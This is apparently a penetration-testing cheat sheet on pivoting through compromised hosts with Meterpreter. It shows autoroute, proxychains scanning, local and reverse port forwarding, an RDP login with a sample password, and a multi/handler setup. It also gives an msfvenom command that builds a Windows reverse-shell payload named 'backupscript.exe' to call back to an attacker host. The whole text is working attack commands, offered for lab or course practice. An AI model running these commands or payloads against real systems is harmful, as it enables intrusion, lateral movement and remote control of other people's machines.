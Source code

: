 #### Meterpreter - Listing Active Routes with AutoRoute
```Shell
run autoroute -p
```

#### Testing Proxy & Routing Functionality
```Shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

### Port Forwarding

#### Meterpreter - Portfwd options
```Shell
help portfwd
```

#### Meterpreter - Creating Local TCP Relay
```Shell
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

#### Connecting to Windows Target through localhost
```Shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

#### Using Netstat output to view information about the established session
```Shell
netstat -antp
```

### Meterpreter Reverse Port Forwarding

Used when you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host

#### Meterpreter - Reverse Port Forwarding Rules
```Shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

#### Meterpreter/MSF - Configuring & Starting multi/handler
```Shell
bg
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081 
set LHOST 0.0.0.0
run
```

#### Generating the Windows Payload
```Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```
